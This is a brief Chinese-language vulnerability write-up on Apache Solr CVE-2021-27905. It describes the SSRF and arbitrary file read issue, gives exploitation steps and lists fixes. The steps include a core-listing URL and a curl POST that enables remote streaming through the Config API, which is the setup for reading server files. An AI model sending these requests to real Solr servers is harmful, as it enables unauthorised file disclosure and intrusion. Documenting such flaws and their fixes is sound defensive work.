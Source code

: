 ### 一 漏洞名
solr任意文件读取(CVE-2021-27905)

### 二 漏洞描述
在Apache Solr未开启认证的情况下，攻击者可直接构造特定请求开启特定配置，并最终造成SSRF或任意文件读取。

Apache Solr <= 8.8.1

### 三 漏洞利用
step1:  
http://192.168.31.96:8983/solr/admin/cores?indexInfo=false&wt=json
获取 core

step2:  
```angular2html
curl -i -s -k -X $'POST' \
    -H $'Content-Type: application/json' --data-binary $'{\"set-property\":{\"requestDispatcher.requestParsers.enableRemoteStreaming\":true}}' \
    $'http://192.168.31.96:8983/solr/demo/config'
```

### 四 修复方式
1 关闭ConfigAPI：在bin目录下的solr.in.cmd中加入一行set SOLR_OPTS=%SOLR_OPTS% -Ddisable.configEdit=true；然后关闭远程读取文件流，默认不开启
2 增加访问控制口令

